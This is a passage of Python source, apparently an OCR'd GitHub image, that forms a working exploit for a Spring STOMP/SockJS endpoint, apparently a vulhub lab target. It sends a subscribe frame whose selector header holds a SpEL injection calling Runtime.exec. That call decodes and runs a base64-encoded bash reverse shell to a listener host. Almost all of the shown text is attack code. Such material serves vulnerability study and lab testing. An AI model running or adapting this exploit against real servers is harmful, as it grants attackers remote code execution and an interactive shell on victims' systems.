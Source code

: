 ```python
        for line in response.iter_lines():
            time.sleep(0.5)
    
    def send(self, command, headers, body=''):
        data = [command.upper(), '\n']

        data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))
        
        data.append('\n\n')
        data.append(body)
        data.append('\x00')
        data = json.dumps([''.join(data)])

        response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
        if response.status_code != 204:
            logging.info(f"send '{command}' data error.")
        else:
            logging.info(f"send '{command}' data success.")

    def __del__(self):
        self.session.close()

def main():
    sockjs = SockJS(url)
    sockjs.start()
    time.sleep(1)

    sockjs.send('connect', {
        'accept-version': '1.1,1.0',
        'heart-beat': '10000,10000'
    })
    sockjs.send('subscribe', {
        'selector': "T(java.lang.Runtime).getRuntime().exec('bash -c {echo," + command.decode('utf-8') + "}|{base64,-d}|{bash,-i}')",
        'id': 'sub-0',
        'destination': subscribe_dest
    })

    data = json.dumps({'name': 'vulhub'})
    sockjs.send('send', {
        'content-length': len(data),
        'destination': send_dest
    }, data)


if __name__ == "__main__":
    url = 'http://1:8080/gs-guide-websocket'
    subscribe_dest = '/topic/greetings'
    send_dest = '/app/hello'
    lhost = '127.0.0.1'
    lport = '9999'
    command = base64.b64encode('bash -i >& /dev/tcp/{}/{} 0>&1'.format(lhost,lport).encode('utf-8'))
    main()
```

